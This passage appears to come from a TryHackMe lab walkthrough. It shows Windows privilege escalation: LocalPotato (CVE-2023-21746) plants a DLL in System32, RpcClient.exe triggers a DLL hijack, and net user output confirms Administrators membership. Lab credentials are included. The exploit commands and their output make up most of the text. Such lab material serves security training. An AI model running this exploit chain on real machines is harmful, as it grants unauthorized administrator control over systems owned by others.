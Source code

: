 ```shell-session
C:\Users\user\Desktop> LocalPotato.exe -i SprintCSP.dll -o \Windows\System32\SprintCSP.dll
 
         LocalPotato (aka CVE-2023-21746)
         by splinter_code & decoder_it
 
[*] Objref Moniker Display Name = objref:TUVPVwEAAAAAAAAAAAAAAMAAAAAAAABGAQAAAAAAAABTIvXDdMIUbap+AepkeJ/yAcgAAMwIwArWEKZ3vRDmhjkAIwAHAEMASABBAE4ARwBFAC0ATQBZAC0ASABPAFMAVABOAEEATQBFAAAABwAxADAALgAxADAALgA0ADAALgAyADMAMQAAAAAACQD//wAAHgD//wAAEAD//wAACgD//wAAFgD//wAAHwD//wAADgD//wAAAAA=:
[*] Calling CoGetInstanceFromIStorage with CLSID:{854A20FB-2D44-457D-992F-EF13785D2B51}
[*] Marshalling the IStorage object... IStorageTrigger written: 100 bytes
[*] Received DCOM NTLM type 1 authentication from the privileged client
[*] Connected to the SMB server with ip 127.0.0.1 and port 445
[+] SMB Client Auth Context swapped with SYSTEM
[+] RPC Server Auth Context swapped with the Current User
[*] Received DCOM NTLM type 3 authentication from the privileged client
[+] SMB reflected DCOM authentication succeeded!
[+] SMB Connect Tree: \\127.0.0.1\c$  success
[+] SMB Create Request File: Windows\System32\SprintCSP.dll success
[+] SMB Write Request file: Windows\System32\SprintCSP.dll success
[+] SMB Close File success
[+] SMB Tree Disconnect success
```

With our DLL in place, we can now run `RpcClient.exe` to trigger the call to `SvcRebootToFlashingMode`, effectively executing the payload in our DLL:

Command Prompt

```shell-session
C:\Users\user\Desktop> RpcClient.exe
[+] Dll hijack triggered!
```

To verify if our exploit worked as expected, we can check if our user is now part of the Administrators group:

Command Prompt

```shell-session
C:\> net user user
User name                    user
Full Name
... some output omitted ...
Local Group Memberships      *Administrators       *Remote Desktop Users
                             *Users
Global Group memberships     *None
The command completed successfully.
```

To spawn a command prompt with administrator privileges, you can simply right-click and Run as administrator using your user's credentials. Remember that the user is `user` and the password is `Password123`:

![Run as Administrator](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/0d912f945feffc2a997d45e09d22fff3.png)  

